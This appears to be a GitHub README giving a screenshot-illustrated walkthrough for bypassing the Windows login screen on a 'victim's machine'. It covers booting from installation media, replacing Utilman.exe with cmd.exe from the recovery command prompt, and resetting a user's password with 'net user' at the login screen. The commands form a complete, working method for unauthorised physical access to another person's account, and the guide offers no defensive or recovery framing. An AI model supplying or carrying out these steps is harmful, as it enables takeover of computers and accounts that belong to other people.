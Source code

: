 # Bypass Windows Log On Screen

# 00 Create Windows Installation Media USB

Download The Windows Installation Media Tool And Create A USB Installation Media
```
https://www.microsoft.com/en-us/software-download/windows10
```
![1](https://user-images.githubusercontent.com/94680549/228337624-e885941f-77e0-446e-a49f-4f4d0eb76dd8.png)

![2](https://user-images.githubusercontent.com/94680549/228338047-b9e13f79-37d3-49c2-b227-7d4625318e16.png)

![3](https://user-images.githubusercontent.com/94680549/228354567-a62803ee-b028-44a3-aa12-731d07784744.png)

![4](https://user-images.githubusercontent.com/94680549/228354588-b2458a32-8136-450d-8572-90ebf1179be3.png)

![5](https://user-images.githubusercontent.com/94680549/228354600-e22fe889-3663-4b5f-bc6c-07c492018de9.png)

![6](https://user-images.githubusercontent.com/94680549/228354616-d8fc3abf-a305-40c9-afd1-941fd8f59f0d.png)

![7](https://user-images.githubusercontent.com/94680549/228354636-d78dcda2-9ef0-4476-9f3d-3eb9cd5da325.png)

![8](https://user-images.githubusercontent.com/94680549/228354647-dfd3312b-abef-47a2-972e-c8a2d77fcd40.png)


# 01 Change Utilman.exe To cmd.exe
>Once The Installation Media Is Done, Plug In The USB Into The Victim's Machine
>We Are Going To Change The Utilman.exe(Accessibility Function) To Open CMD Instead
![9](https://user-images.githubusercontent.com/94680549/228472093-4686d36e-e42e-4d44-86d7-d0e9b2784fc6.png)

1.Restart While Holding The Shift Key
![10](https://user-images.githubusercontent.com/94680549/228472285-e91d753e-e66c-4920-abd1-1b9bbbadafb9.png)

2.Once You Are In This Menu, Select Use A Device
![1](https://user-images.githubusercontent.com/94680549/228473575-eee0bd01-3650-4090-9cf6-d01a5145e819.jpg)
Then Select The USB Installation Media You Created
![2](https://user-images.githubusercontent.com/94680549/228473698-5e6c03f3-2389-409e-8222-a3650e14ae49.jpg)

3.Once You Are In The Windows Installaion Menu, Press Shift+F10
![IMG20230329115443](https://user-images.githubusercontent.com/94680549/228477409-2259ad21-34f7-43f5-a0ff-a2271af86832.jpg)


4.Once cmd Is Open

List The Logical Drives/Disks On The Machine
```shell
wmic logicaldisk get name
```
![11](https://user-images.githubusercontent.com/94680549/228474816-f9cce337-4afd-4358-9eab-9e335cd47cf0.png)

Check To See Which Drive Contains Windows
![12](https://user-images.githubusercontent.com/94680549/228475150-2111c046-c4be-4c13-bed3-d8a766c1a1f2.png)

Change The Directory To Windows\System32 Where Utilman.exe Is Located
```shell
cd Windows\System32
```
![13](https://user-images.githubusercontent.com/94680549/228475750-8f59ef51-6583-4ae2-9268-a7f8f4818d2f.png)

Rename Utilman.exe To Utilman2.exe 
```shell
ren Utilman.exe Utilman2.exe
```
![14](https://user-images.githubusercontent.com/94680549/228475950-3f7f2de3-483f-4baf-ac43-711c662f7f62.png)

Copy cmd.exe As Utilman.exe
![15](https://user-images.githubusercontent.com/94680549/228476014-5fc12e2d-0af2-4794-ad6c-c3909ea3616a.png)

Once The Copy Is Successful Close CMD And The Windows Installation
![IMG20230329115809](https://user-images.githubusercontent.com/94680549/228478050-9c1c6aa8-9035-43de-9391-e02ece9a25f7.jpg)

Once The Device Boots Up, Click On Accessibility/Utilman To Open CMD
![16](https://user-images.githubusercontent.com/94680549/228478391-218aa8f3-19fa-4361-ad8b-9a524419b800.png)

To Change The Password Of The User
```shell
net user {user} {password}
```
![17](https://user-images.githubusercontent.com/94680549/228478711-df70880c-b9bd-4da1-9ce3-72d97ac131f2.png)

Once Done You Can Now Login With The New Passoword You Set
![18](https://user-images.githubusercontent.com/94680549/228478935-995dea38-f21b-419c-8671-68d667e9a6a0.png)



